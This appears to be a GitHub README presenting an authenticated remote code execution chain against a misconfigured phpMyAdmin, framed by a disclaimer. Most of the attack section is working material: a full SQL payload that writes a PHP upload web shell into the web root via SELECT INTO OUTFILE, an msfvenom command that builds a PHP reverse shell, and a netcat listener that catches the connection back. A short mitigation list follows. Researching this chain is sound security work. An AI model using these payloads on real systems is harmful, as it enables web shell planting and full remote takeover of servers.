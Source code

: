 # Authenticated RCE in PhpMyAdmin via SQL File Write and Shell Upload

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes.  
All actions were performed in a controlled lab environment.  
Unauthorized access or exploitation of systems you do not own is illegal and unethical.  
The author is not responsible for any misuse of the information provided here.

---

## 🧠 Overview

This repository demonstrates how an attacker can achieve **authenticated Remote Code Execution (RCE)** in a misconfigured **PhpMyAdmin** setup using the SQL query interface.

By abusing the `SELECT ... INTO OUTFILE` functionality, it is possible to write a malicious PHP web shell to the server's web root. That uploader is then used to upload a reverse shell, leading to complete remote access.

This is **not a new CVE** but rather a misconfiguration and privilege abuse chain.

---

## 📋 Attack Flow

1. Login to PhpMyAdmin with valid credentials
2. Use `SELECT INTO OUTFILE` to write a PHP uploader shell
3. Upload a reverse shell via that uploader
4. Trigger the uploaded shell to receive a reverse connection

---

## ⚙️ Lab Environment

- **Target URL**: `http://192.168.110.189:8080/phpmyadmin/`  
- **PhpMyAdmin Version**: 5.x  
- **OS**: Windows with WAMP (Web Root: `C:/wamp/www/`)  
- **Credentials**: Valid user login  
- **Listener IP**: `192.168.45.206`  
- **Port**: `4444`

---

## 💣 Exploit Commands

### 1. SQL Payload to Drop PHP Uploader

```sql
SELECT "<?php echo '<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">'; 
echo '<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>'; 
if( $_POST['_upl'] == \"Upload\" ) { 
  if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { 
    echo '<b>Upload Done.</b>'; 
  } else { 
    echo '<b>Upload Failed.</b>'; 
  } 
} ?>" 
INTO OUTFILE 'C:/wamp/www/uploader.php'
```

### 2. Generate Reverse Shell Using msfvenom

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw -o rev_shell.php
```

### 3. Start Listener

```bash
nc -nlvp 4444
```

---

## 📸 Screenshots

1. **SQL Query to Inject Uploader**  
   ![SQL Injection](./screenshots/sql_query.png)

2. **Accessing Uploader via Browser**  
   ![Uploader Interface](./screenshots/upload.png)

3. **Creating a payload**
    ![Payload](./screenshots/payload.png)

3. **Uploading rev_shell.php**  
   ![Shell Upload](./screenshots/rev_shell_upload.png)

4. **Shell Triggered and Connection Received**  
   ![Reverse Shell](./screenshots/trigger.png)

> 💡 If you prefer not to push images, you can embed them using GitHub Issues or external URLs.

---

## 🔐 Mitigation

- Restrict or disable the `FILE` privilege in MySQL for all web users.
- Set the `secure_file_priv` variable in MySQL to restrict file write paths.
- Prevent public access to PhpMyAdmin.
- Apply proper file system permissions to prevent MySQL from writing to web directories.
- Use a Web Application Firewall (WAF) and monitor logs for suspicious queries.

---

## 📚 References

- [PhpMyAdmin Project](https://www.phpmyadmin.net/)  
- [CyberChef](https://gchq.github.io/CyberChef/)  
- [msfvenom Payloads](https://docs.rapid7.com/metasploit/php-payloads/)

---


## 📝 Related Blog Post

Read the full write-up:  
👉 [Authenticated RCE in PhpMyAdmin via SQL File Write and Shell Upload](https://medium.com/@sakshi.infosec)

